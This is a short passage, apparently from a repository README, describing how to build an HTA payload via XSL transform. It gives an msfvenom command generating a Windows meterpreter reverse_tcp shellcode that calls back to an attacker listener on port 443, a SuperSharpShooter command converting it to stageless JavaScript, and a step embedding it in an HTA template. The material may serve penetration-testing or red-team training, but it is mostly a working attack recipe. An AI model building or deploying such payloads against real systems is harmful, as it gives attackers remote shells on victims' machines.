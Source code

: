 ### XSL Transform (xsl-template.hta)

- Create shellcode using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`
- Convert to JS using SuperSharpShooter: `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`
- Embed the JS content inside the xsl-template.hta template file.

